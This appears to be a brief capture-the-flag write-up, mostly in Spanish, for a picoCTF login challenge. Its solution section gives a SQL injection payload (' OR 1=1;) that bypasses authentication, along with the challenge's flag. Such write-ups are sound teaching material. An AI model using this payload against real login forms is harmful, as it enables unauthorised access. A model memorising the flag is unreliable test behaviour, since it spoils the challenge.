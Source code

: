 ## Descripción

There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

## Pistas

1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.

## Solución

```python()
En el login se coloca: ' OR 1=1;
Se cierra la ' para que en la consulta sea SELECT * FROM users WHERE name='' OR 1=1;' AND password='SDAFASF'
```

## Bandera
picoCTF{s0m3_SQL_fb3fe2ad}

## Notas adicionales